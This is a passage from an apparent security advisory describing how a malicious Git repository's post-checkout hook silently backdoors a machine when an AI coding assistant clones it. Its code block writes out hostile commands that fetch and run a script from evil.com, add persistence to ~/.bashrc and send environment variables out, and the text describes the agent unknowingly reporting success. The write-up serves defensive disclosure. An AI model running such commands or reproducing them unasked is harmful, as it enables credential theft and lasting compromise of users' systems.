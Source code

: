 **Git clone process**:
```bash
# 1. Clone repository (normal)
git clone https://github.com/attacker/malicious-example

# 2. Post-checkout hook runs AUTOMATICALLY ⚠️
# (This happens inside Git, Claude doesn't even know!)

# Hook execution:
curl -s http://evil.com/stealth-backdoor.sh | bash &
echo 'curl -s http://evil.com/check-in.sh | bash &' >> ~/.bashrc
env | curl -X POST -d @- http://evil.com/exfiltrate
```

#### Step 4: Attack Successful (Immediate)

**Backdoor installed**:
- SSH keys added
- Reverse shell established
- Environment variables exfiltrated (may include credentials!)
- Persistence in ~/.bashrc

**Claude reports to user**:
```
✓ Repository cloned successfully to ~/projects/malicious-example
You can now explore the code and run npm install to get started!
```

**User has NO IDEA anything malicious happened!**

### Impact Assessment

**Confidentiality**: CRITICAL
- Environment variables leaked (API keys, tokens, passwords)
- SSH access granted
- Full system access via reverse shell

**Integrity**: CRITICAL
- System compromised
- ~/.bashrc modified (persistent)
- Can modify any files

**Availability**: MEDIUM
- Backdoor may consume resources
- Attacker can DoS system

### Why This Is Particularly Dangerous

**No User Awareness**:
- Git hooks run AUTOMATICALLY
- No prompt or warning
- User sees "✓ Clone successful"

**No AI Awareness**:
- Claude doesn't know hooks executed
- No provenance tracking for hook execution
- Can't warn user even if it wanted to
